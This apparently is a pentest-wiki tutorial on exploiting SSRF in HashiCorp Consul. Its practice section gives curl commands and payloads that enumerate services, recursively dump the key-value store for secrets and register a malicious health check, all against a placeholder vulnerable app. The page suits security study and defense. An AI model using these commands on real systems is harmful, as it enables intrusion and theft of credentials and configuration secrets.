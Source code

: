 ```yaml
---
title: Exploiting SSRF in HashiCorp Consul APIs
description: Harness SSRF vulnerabilities to exploit HashiCorp Consul for internal
  service interaction
keywords:
- HashiCorp Consul
- SSRF
- service discovery
- HTTP API
- vulnerability exploitation
- internal services
---
```


# HashiCorp Consul

## Context

HashiCorp Consul is a service mesh solution that enables service discovery, configuration, and segmentation in distributed systems. This article demonstrates how an adversary can exploit Server-Side Request Forgery (SSRF) vulnerabilities targeting Consul's HTTP APIs to interact with internal services and access sensitive information. A solid understanding of HTTP protocol mechanics, API endpoint enumeration, basic SSRF exploitation techniques, and service discovery concepts is assumed.

## Theory

### Consul HTTP API Exposure and Attack Surface

Consul provides a robust API used by applications to query and register services. This API is exposed through HTTP, often accessible from internal network segments. By default, some Consul deployments may lack authentication, widening the attack surface for potential exploits. Through a successful SSRF attack, a malicious actor can relay their requests to these exposed Consul APIs, circumventing internal network security measures like segmentation.

### Health Check and Redirect SSRF in Consul

Consul's API includes health check functionality, which can be manipulated to perform HTTP requests to arbitrary internal URLs. By crafting SSRF payloads to target health check or redirect endpoints, an attacker can effectively interact with various internal services, often bypassing traditional security constraints and accessing otherwise restricted endpoints.

### Internal API Enumeration and Data Exposure

The Consul API exposes critical data, such as service listings, node metadata, and key-value store contents. Utilizing SSRF, attackers can target these endpoints to leak sensitive data, including service topology, credentials, or secret configurations. This allows the adversary to gather valuable intelligence on the internal architecture of the target network.

## Practice

### Enumerate Consul Services via SSRF

To enumerate services registered in Consul, an attacker can exploit SSRF to target the service enumeration endpoint.

- **Payload**:  
   ```http
   http://127.0.0.1:8500/v1/catalog/services
   ```
   This is the SSRF payload that forms the target URL of the internal Consul API.

- **Command Line**:  
   ```bash
   curl -X GET 'http://vulnerable-app/ssrf?url=http://127.0.0.1:8500/v1/catalog/services'
   ```
   This command uses curl to trigger the SSRF vulnerability, relaying the crafted request to retrieve the list of internal services from Consul.

- **Outcome**:  
   The attacker retrieves a list of internal services registered in Consul, gaining insight into the network's service structure and potential targets for further exploration.

### Extract Key-Value Secrets via SSRF

An attacker can also target the key-value store within Consul to extract sensitive configuration information.

- **Payload**:  
   ```http
   http://127.0.0.1:8500/v1/kv?recurse
   ```
   By invoking this command, the attacker coerces the application to relay their request, accessing potentially sensitive data stored in Consul's key-value storage.

- **Outcome**:  
   The attacker accesses sensitive configuration details or secrets stored within the Consul key-value store, potentially exposing credentials or other sensitive information.

### Trigger Internal HTTP Requests via Consul Health Checks

Attacking Consul's health check functionality involves registering a malicious health check to direct internal HTTP requests.

- **Payload JSON**:  
   ```json
   {
       "Name": "ssrf-check",
       "HTTP": "http://internal-service.local/secret",
       "Interval": "10s"
   }
   ```
   This payload is used to register a health check with a controlled HTTP target.

- **Command Line**:  
   ```bash
   curl -X PUT --data-binary @payload.json 'http://vulnerable-app/ssrf?url=http://127.0.0.1:8500/v1/agent/check/register'
   ```
   The attacker submits the health check registration through the SSRF point to force Consul to make a request to an internal resource controlled by the attacker.

- **Outcome**:  
   By leveraging this technique, Consul is manipulated into making HTTP requests to internal endpoints specified by the attacker, potentially opening avenues for further exploitation and SSRF chaining.

## Tools

- **curl**
- **Burp Suite**